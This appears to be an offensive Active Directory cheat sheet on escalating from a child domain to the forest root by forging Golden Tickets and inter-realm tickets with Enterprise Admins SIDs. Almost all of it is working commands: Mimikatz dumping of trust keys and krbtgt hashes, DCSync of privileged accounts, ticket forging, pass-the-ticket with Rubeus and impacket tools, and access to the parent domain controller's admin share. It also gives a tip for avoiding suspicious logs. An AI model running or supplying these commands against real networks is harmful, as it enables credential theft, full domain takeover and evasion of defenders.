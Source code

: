 # Child Domain to Parent Domain - Forest Compromise - extra SIDs (parent/child) (child/parent)

Escalate from a child domain to the root domain of the forest by forging a Golden Ticket with the SID of the Enterprise Admins group in the SID history field.

## With the trust key

### 1) Get the trust key, look at the [in] value in the result

    Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc

OR

    Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\parentDomain$"'

### 2) Forge the referral ticket

    Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:domain.local /sid:<current_domain_SID> /sids:<enterprise_admins_SID>-<RID> /rc4:<key> /service:krbtgt /target:parentDomain.local /ticket:trust.kirbi"'

### 3) Request an ST with the previous TGT and access service

#New tools for more fun

    .\asktgs.exe trust.kirbi CIFS/dc.parentDomain.local
    .\kirbikator.exe lsa .\CIFS.dc.parentDomain.local.kirbi
    ls \\dc.parentDomain.local\c$

##### Or classically
    
    .\Rubeus.exe asktgs /ticket:trust.kirbi /service:cifs/dc.parentDomain.local /dc:dc.parentDomain.local /ptt
    ls \\dc.parentDomain.local\c$

## With the krbtgt hash

Exactly the same attack, but with the krbtgt hash that can be extracted like this :

    Invoke-Mimikatz -Command '"lsadump::lsa /patch"'

To avoid some suspicious logs, use multiple values can be added in SID History :

    Invoke-Mimikatz -Command '"kerberos::golden /user:dc$ /domain:domain.local /sid:<current_domain_SID> /groups:516 /sids:<parent_domain_SID>-516,S-1-5-9 /krbtgt:<krbtgt_hash> /ptt"'
    Invoke-Mimikatz -Command '"lsadump::dcsync /user:parentDomain\Administrator /domain:parentDomain.local"'


#### 1) Golden Ticket

    Get-DomainSID -Domain DOMAIN (Powerview)

    Get-DomainSID -Domain TARGET_DOMAIN (Powerview)

    mimikatz lsadump::dcsync /domain:DOMAIN /user:DOMAIN\krbtgt

    mimikatz kerberos::golden /user:Administrator /krbtgt:KRBTGT_HASH /domain:DOMAIN /sid:USER_SID /sids:ROOT_DOMAIN_SID-519 /ptt

## OR

    lookupsid.py -domain-sids DOMAIN/USER:'PASSWORD'@DC_IP 0

    ticketer.py -nthash CHILD_KRBTGT_HASH -domain-sid CHILD_SID -domain CHILD_DOMAIN -extra-sid PARENT_DOMAIN_SID-519 goldenuser

## OR

##### The new Golden Ticket will be written at the path specified in -w

    raiseChild.py -w ./ticket.ccache child.domain.local/Administrator:password

##### Dump the Administrator's hash of the root domain

    raiseChild.py child.domain.local/Administrator:password

##### PSEXEC on a machine

    raiseChild.py -target-exec <target> child.domain.local/Administrator:password

#### 2) inter_realm_ticket TRUST (parent/child) (child/parent)

    mimikatz lsadump::trust /patch

    mimikatz kerberos::golden /user:Administrator /domain:DOMAIN /sid:DOMAIN_SID /aes256:TRUST_KEY_AES256 /sids:TARGET_DOMAIN_SID-519 /service:krbtgt /target:TARGET_DOMAIN /ptt

## OR

    ticketer.py -nthash TRUST_KEY -domain-sid CHILD_SID -domain CHILD_DOMAIN -extra-sid PARENT_DOAMIN_SID-519 -spn krbtgt/PARENT_DOMAIN goldenuser

    getST.py -k -no-pass -spn cifs/DC_FQDN PARENT_DOMAIN/trustfakeuser@PARENT_DOMAIN -debug

### With these attacks, we perform Pass-the-Ticket
